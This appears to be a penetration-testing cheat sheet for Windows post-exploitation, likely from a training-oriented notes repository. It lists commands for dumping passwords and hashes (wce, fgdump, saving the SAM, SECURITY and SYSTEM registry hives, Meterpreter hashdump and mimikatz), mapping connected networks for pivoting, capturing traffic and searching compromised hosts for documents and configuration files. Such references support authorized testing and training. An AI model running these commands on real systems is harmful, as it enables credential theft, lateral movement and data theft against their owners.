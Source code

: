 ### Proof

```
hostname && whoami.exe && type proof.txt && ipconfig /all
```

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```
